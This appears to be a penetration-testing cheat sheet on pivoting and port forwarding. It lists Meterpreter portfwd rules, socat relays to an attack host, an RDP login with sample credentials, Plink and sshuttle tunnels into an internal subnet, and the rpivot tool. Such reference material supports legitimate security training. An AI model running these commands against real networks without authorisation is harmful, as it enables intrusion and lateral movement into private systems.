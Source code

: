 | `meterpreter > help portfwd`                                                                                                                                                                                       | Meterpreter command used to display the features of the portfwd command.                                                                                                                                                                                                |
| `meterpreter > portfwd add -l 3300 -p 3389 -r <IPaddressofTarget>`                                                                                                                                                 | Meterpreter-based portfwd command that adds a forwarding rule to the current Meterpreter session. This rule forwards network traffic on port 3300 on the local machine to port 3389 (RDP) on the target.                                                                |
| `xfreerdp /v:localhost:3300 /u:victor /p:pass@123`                                                                                                                                                                 | Uses xfreerdp to connect to a remote host through localhost:3300 using a set of credentials. Port forwarding rules must be in place for this to work properly.                                                                                                          |
| `netstat -antp`                                                                                                                                                                                                    | Used to display all (`-a`) active network connections with associated process IDs. `-t` displays only TCP connections.`-n` displays only numerical addresses. `-p` displays process IDs associated with each displayed connection.                                      |
| `meterpreter > portfwd add -R -l 8081 -p 1234 -L <IPaddressofAttackHost>`                                                                                                                                          | Meterpreter-based portfwd command that adds a forwarding rule that directs traffic coming on on port 8081 to the port `1234` listening on the IP address of the Attack Host.                                                                                            |
| `meterpreter > bg`                                                                                                                                                                                                 | Meterpreter-based command used to run the selected metepreter session in the background. Similar to background a process in Linux                                                                                                                                       |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofAttackHost>:80`                                                                                                                                                      | Uses Socat to listen on port 8080 and then to fork when the connection is received. It will then connect to the attack host on port 80.                                                                                                                                 |
| `socat TCP4-LISTEN:8080,fork TCP4:<IPaddressofTarget>:8443`                                                                                                                                                        | Uses Socat to listen on port 8080 and then to fork when the connection is received. Then it will connect to the target host on port 8443.                                                                                                                               |
| `plink -D 9050 ubuntu@<IPaddressofTarget>`                                                                                                                                                                         | Windows-based command that uses PuTTY's Plink.exe to perform SSH dynamic port forwarding and establishes an SSH tunnel with the specified target. This will allow for proxy chaining on a Windows host, similar to what is done with Proxychains on a Linux-based host. |
| `sudo apt-get install sshuttle`                                                                                                                                                                                    | Uses apt-get to install the tool sshuttle.                                                                                                                                                                                                                              |
| `sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0 -v`                                                                                                                                                              | Runs sshuttle, connects to the target host, and creates a route to the 172.16.5.0 network so traffic can pass from the attack host to hosts on the internal network (`172.16.5.0`).                                                                                     |
| `sudo git clone https://github.com/klsecservices/rpivot.git`                                                                                                                                                       | Clones the rpivot project GitHub repository.                                                                                                                                                                                                                            |